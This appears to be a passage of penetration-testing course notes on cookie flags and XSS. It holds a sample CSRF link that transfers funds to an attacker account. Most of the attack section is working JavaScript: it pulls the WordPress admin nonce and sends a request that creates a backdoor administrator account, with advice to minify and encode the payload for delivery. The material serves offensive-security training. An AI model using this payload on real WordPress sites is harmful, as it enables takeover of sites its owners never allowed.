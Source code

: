 Cookies can be set with several optional flags, including two that are particularly interesting to us as penetration testers: Secure and HttpOnly.

The Secure flag instructs the browser to only send the cookie over encrypted connections, such as HTTPS.

The HttpOnly flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

You can look at the nature of a website's cookies in the *Developer Tools*. If WordPress website, consider creating a JS script that creates another admin, 'https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/'.

First, we'll create a JS function that fetches the WordPress admin nonce. The nonce is a server-generated token that is included in each HTTP request to add randomness and prevent Cross-Site-Request-Forgery (CSRF) attacks. A CSRF attack occurs via social engineering in which the victim clicks on a malicious link that performs a preconfigured action on behalf of the user. The malicious link could be disguised by an apparently-harmless description, often luring the victim to click on it.
```bash
<a href="http://fakecryptobank.com/send_btc?account=ATTACKER&amount=100000"">Check out these awesome cat memes!</a>
```
This attack would be successful if the user is already logged in with a valid session on the same website.

As mentioned, in order to perform any administrative action, we need to first gather the nonce. We can accomplish this using the following JavaScript function:
```bash
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```
This function performs a new HTTP request towards the /wp-admin/user-new.php URL and saves the nonce value found in the HTTP response based on the regular expression. The regex pattern matches any alphanumeric value contained between the string /ser" value=" and double quotes.

Now that we've dynamically retrieved the nonce, we can craft the main function responsible for creating the new admin user.
```bash
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
We created a new backdoored admin account, just after the nonce we obtained previously. If our attack succeeds, we'll be able to gain administrative access to the entire WordPress installation.

To ensure that our JavaScript payload will be handled correctly by Burp and the target application, we need to first minify it, then encode it. You can minify our attack with 'https://jscompress.com'.

